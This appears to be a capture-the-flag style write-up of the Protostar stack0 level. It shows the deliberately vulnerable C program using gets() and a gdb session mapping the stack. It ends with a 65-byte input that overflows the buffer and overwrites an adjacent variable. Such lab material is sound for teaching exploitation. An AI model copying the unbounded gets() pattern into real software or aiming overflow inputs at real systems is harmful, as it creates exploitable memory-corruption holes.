

#### 12. First Stack Buffer Overflow to modify Variable

- This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

- This level is at `/opt/protostar/bin/stack0`

`stack0.c`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

```sh
user@protostar:/opt/protostar/bin$ ls -l stack0
-rwsr-xr-x 1 root root 22412 Nov 24  2011 stack0
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ file stack0
stack0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ man gets
```



- `volatile`
	- Keep the variable as it is and prevent any compiler optimization.

```sh
user@protostar:/opt/protostar/bin$ ./stack0
ABCDEF
Try again?
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack0 -q
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) set disassembly-flavor intel
(gdb) break *main
Breakpoint 1 at 0x80483f4: file stack0/stack0.c, line 6.
(gdb) run
Starting program: /opt/protostar/bin/stack0

Breakpoint 1, main (argc=1, argv=0xbffff834) at stack0/stack0.c:6
6	stack0/stack0.c: No such file or directory.
	in stack0/stack0.c
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave
0x08048434 <main+64>:	ret
End of assembler dump.
(gdb) info registers
eax            0xbffff834	-1073743820
ecx            0x1fe40e8e	535039630
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff78c	0xbffff78c
ebp            0xbffff808	0xbffff808
esi            0x0	0
edi            0x0	0
eip            0x80483f4	0x80483f4 <main>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) info proc mapping
process 1934
cmdline = '/opt/protostar/bin/stack0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack0'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack0
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack0
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fe0000 0xb7fe2000     0x2000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) x/wx $esp
0xbffff78c:	0xb7eadc76
(gdb) del
Delete all breakpoints? (y or n) y
(gdb) break *0x0804840c
Breakpoint 2 at 0x804840c: file stack0/stack0.c, line 11.
(gdb) break *0x08048411
Breakpoint 3 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>info registers
>x/24wx $esp
>x/2i $eip
>end
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack0
eax            0xbffff73c	-1073744068
ecx            0x6232204b	1647452235
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff720	0xbffff720
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x804840c	0x804840c <main+24>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff720:	0xbffff73c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff730:	0xb7fd7ff4	0xb7ec6165	0xbffff748	0xb7eada75
0xbffff740:	0xb7fd7ff4	0x08049620	0xbffff758	0x080482e8
0xbffff750:	0xb7ff1040	0x08049620	0xbffff788	0x08048469
0xbffff760:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff788
0xbffff770:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
0x804840c <main+24>:	call   0x804830c <gets@plt>
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]

Breakpoint 2, 0x0804840c in main (argc=1, argv=0xbffff834) at stack0/stack0.c:11
11	in stack0/stack0.c
(gdb) c
Continuing.
AAAAAAAAAA
eax            0xbffff73c	-1073744068
ecx            0xbffff73c	-1073744068
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff720	0xbffff720
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x8048411	0x8048411 <main+29>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff720:	0xbffff73c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff730:	0xb7fd7ff4	0xb7ec6165	0xbffff748	0x41414141
0xbffff740:	0x41414141	0x08004141	0xbffff758	0x080482e8
0xbffff750:	0xb7ff1040	0x08049620	0xbffff788	0x08048469
0xbffff760:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff788
0xbffff770:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x8048415 <main+33>:	test   eax,eax

Breakpoint 3, main (argc=1, argv=0xbffff834) at stack0/stack0.c:13
13	in stack0/stack0.c
(gdb) x/wx $esp+0x5c
0xbffff77c:	0x00000000
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack0
eax            0xbffff73c	-1073744068
ecx            0x40433bde	1078148062
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff720	0xbffff720
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x804840c	0x804840c <main+24>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff720:	0xbffff73c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff730:	0xb7fd7ff4	0xb7ec6165	0xbffff748	0xb7eada75
0xbffff740:	0xb7fd7ff4	0x08049620	0xbffff758	0x080482e8
0xbffff750:	0xb7ff1040	0x08049620	0xbffff788	0x08048469
0xbffff760:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff788
0xbffff770:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
0x804840c <main+24>:	call   0x804830c <gets@plt>
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]

Breakpoint 2, 0x0804840c in main (argc=1, argv=0xbffff834) at stack0/stack0.c:11
11	in stack0/stack0.c
(gdb) c
Continuing.
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHH
eax            0xbffff73c	-1073744068
ecx            0xbffff73c	-1073744068
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff720	0xbffff720
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x8048411	0x8048411 <main+29>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff720:	0xbffff73c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff730:	0xb7fd7ff4	0xb7ec6165	0xbffff748	0x41414141
0xbffff740:	0x41414141	0x42424242	0x42424242	0x43434343
0xbffff750:	0x43434343	0x44444444	0x44444444	0x45454545
0xbffff760:	0x45454545	0x46464646	0x46464646	0x47474747
0xbffff770:	0x47474747	0x48484848	0x48484848	0x00000000
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x8048415 <main+33>:	test   eax,eax

Breakpoint 3, main (argc=1, argv=0xbffff834) at stack0/stack0.c:13
13	in stack0/stack0.c
(gdb) c
Continuing.
Try again?

Program exited with code 013.
Error while running hook_stop:
The program has no registers now.
(gdb) r
Starting program: /opt/protostar/bin/stack0
eax            0xbffff73c	-1073744068
ecx            0xe451d432	-464399310
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff720	0xbffff720
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x804840c	0x804840c <main+24>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff720:	0xbffff73c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff730:	0xb7fd7ff4	0xb7ec6165	0xbffff748	0xb7eada75
0xbffff740:	0xb7fd7ff4	0x08049620	0xbffff758	0x080482e8
0xbffff750:	0xb7ff1040	0x08049620	0xbffff788	0x08048469
0xbffff760:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff788
0xbffff770:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
0x804840c <main+24>:	call   0x804830c <gets@plt>
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]

Breakpoint 2, 0x0804840c in main (argc=1, argv=0xbffff834) at stack0/stack0.c:11
11	in stack0/stack0.c
(gdb) c
Continuing.
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII
eax            0xbffff73c	-1073744068
ecx            0xbffff73c	-1073744068
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff720	0xbffff720
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x8048411	0x8048411 <main+29>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff720:	0xbffff73c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff730:	0xb7fd7ff4	0xb7ec6165	0xbffff748	0x41414141
0xbffff740:	0x41414141	0x42424242	0x42424242	0x43434343
0xbffff750:	0x43434343	0x44444444	0x44444444	0x45454545
0xbffff760:	0x45454545	0x46464646	0x46464646	0x47474747
0xbffff770:	0x47474747	0x48484848	0x48484848	0x49494949
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x8048415 <main+33>:	test   eax,eax

Breakpoint 3, main (argc=1, argv=0xbffff834) at stack0/stack0.c:13
13	in stack0/stack0.c
(gdb) c
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
Error while running hook_stop:
The program has no registers now.
(gdb) q
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ echo AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII | ./stack0
you have changed the 'modified' variable
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 64" | ./stack0
Try again?
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 65" | ./stack0
you have changed the 'modified' variable
user@protostar:/opt/protostar/bin$
```